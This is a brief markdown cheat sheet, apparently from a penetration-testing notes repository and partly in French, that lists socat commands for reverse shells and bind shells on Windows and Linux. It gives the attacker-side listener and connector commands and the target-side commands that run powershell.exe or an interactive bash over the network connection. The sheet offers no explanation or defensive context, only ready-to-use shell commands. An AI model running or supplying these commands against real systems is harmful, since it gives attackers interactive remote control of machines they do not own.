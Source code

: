# Reverse shells

[Attaquant]
```
socat TCP-L:<port> -
```

Windows
```
socat TCP:<IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Linux

```
socat TCP:<IP>:<LOCAL-PORT> EXEC:"bash -li"
```

# Bind Shells

Windows
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Linux
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

[Attaquant]
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
